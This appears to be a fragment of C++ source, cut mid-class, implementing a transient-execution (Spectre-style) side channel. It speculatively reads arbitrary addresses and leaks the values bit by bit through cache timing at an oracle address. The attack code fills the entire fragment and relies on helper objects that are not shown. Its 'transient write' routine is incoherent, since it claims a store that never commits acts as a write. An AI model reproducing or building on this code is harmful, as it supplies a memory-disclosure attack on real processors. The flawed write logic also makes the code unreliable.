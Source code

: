 ```cpp
        // Prepare microarchitectural state
        uarch_manager.prepare_for_transient_read(address);
        
        // Create speculation window
        if (transient_controller.create_speculation_window()) {
            // This executes speculatively but never commits architecturally
            T value = *reinterpret_cast<T*>(address);
            transmit_via_side_channel(value);
        }
        
        // Reconstruct value from side channel
        return reconstruct_from_side_channel<T>();
    }
    
    template <typename T>
    void write_memory_transient(uintptr_t address, T value) {
        // Prepare microarchitectural state
        uarch_manager.prepare_for_transient_write(address);
        
        // Create speculation window for store operation
        if (transient_controller.create_speculation_window()) {
            // Speculative store that never commits architecturally
            *reinterpret_cast<T*>(address) = value;
            
            // Verify store via side channel
            transmit_via_side_channel(*reinterpret_cast<T*>(address));
        }
    }
    
    void transmit_via_side_channel(uint64_t value) {
        for (int i = 0; i < 64; i++) {
            if ((value >> i) & 1) {
                // Transmit '1' bit using cache access
                cache_controller.access_cache_line(ORACLE_BASE_ADDRESS + (i * CACHE_LINE_SIZE));
            }
        }
    }
    
    template <typename T>
    T reconstruct_from_side_channel() {
        T result = 0;
        for (int i = 0; i < sizeof(T) * 8; i++) {
            // Measure cache access time to determine bit value
            if (cache_controller.is_cache_line_hot(ORACLE_BASE_ADDRESS + (i * CACHE_LINE_SIZE))) {
                result |= (1ULL << i);
            }
        }
        return result;
    }
};
```
